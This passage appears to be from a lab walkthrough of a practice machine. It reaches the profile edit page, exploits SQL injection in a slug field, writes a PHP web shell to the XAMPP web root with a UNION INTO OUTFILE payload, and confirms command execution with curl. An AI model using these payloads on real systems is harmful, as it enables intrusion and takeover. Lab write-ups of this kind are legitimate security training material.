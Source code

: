 ```bash
Username: jerren.devops
Reminder: paranoid
New Password: password123

After clicking the Update button, we are presented with Password was successfully updated, and we are redirected back to the login page. We can now log in as jerren.devops:password123.
SQL Injection

Now that we are logged in, we can edit the user’s profile by clicking Edit in the bottom-left. We are then redirected to the profile edit page (http://192.168.120.132:33033/users/4/edit), at the bottom of which we find Request Profile SLUG (experimental):

Clicking on that link takes us to the /slug endpoint (http://192.168.120.132:33033/slug) where we are met with a single field that seems to be accepting a URL string to send a profile request to. Above the field at the top of the form, we find #<Mysql2::Result:0x000...>. This is quite odd in this context.

Since the string mentions a database (Mysql2), let’s try a quick test for the presence of an SQL injection vulnerability by inputting one single quote (') into the field and clicking the Request button. The page blows up with a red SQL error message, which tells us that we have indeed discovered an SQLi vulnerability:

The vulnerable query is revealed in the verbose error message. This is a textbook example of a vulnerable SQL query string.

sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"

Remote Code Execution

Recalling the web server on port 45332, we found the document root directory of the website (from the phpinfo() output) to be C://xampp//htdocs//. Leveraging the SQLi vulnerability, we should be able to write a PHP web shell to that directory.

Here’s our UNION injection query:

' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'

When we submit the form, the URL changes to the following:

http://192.168.120.132:33033/slug?URL=%27+UNION+SELECT+%28%22%3C%3Fphp+echo+passthru%28%24_GET%5B%27cmd%27%5D%29%3B%22%29+INTO+OUTFILE+%27C%3A%2Fxampp%2Fhtdocs%2Fcmd.php%27++--+-%27

This is promising, and hopefully our injection was successful. We can verify this by passing a Windows command into the cmd parameter:

kali@kali:~$ curl "http://192.168.120.132:45332/cmd.php?cmd=dir"
 Volume in drive C has no label.
 Volume Serial Number is A41E-B108

 Directory of C:\xampp\htdocs

11/09/2020  08:46 AM    <DIR>          .
11/09/2020  08:46 AM    <DIR>          ..
11/09/2020  08:46 AM                35 cmd.php
11/03/2020  11:13 AM               887 index.html
11/03/2020  11:16 AM                21 phpinfo.php
11/03/2020  11:13 AM             3,023 script.js
11/03/2020  11:14 AM             1,266 styles.css
               5 File(s)          5,232 bytes
               2 Dir(s)   1,602,994,176 bytes free

Nice. We have remote code execution on the target.
Getting a Shell
```